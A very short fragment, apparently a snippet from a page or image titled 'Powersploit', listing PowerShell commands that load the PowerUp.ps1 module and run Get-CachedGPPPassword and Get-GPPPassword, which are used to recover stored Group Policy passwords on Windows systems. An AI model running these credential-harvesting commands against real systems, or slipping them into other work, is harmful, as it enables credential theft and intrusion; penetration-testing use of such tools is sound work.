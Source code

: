 # Powersploit

```
PS C:\> ipmo .\PowerUp.ps1

PS C:\> Get-CachedGPPPassword

PS C:\> Get-GPPPassword
```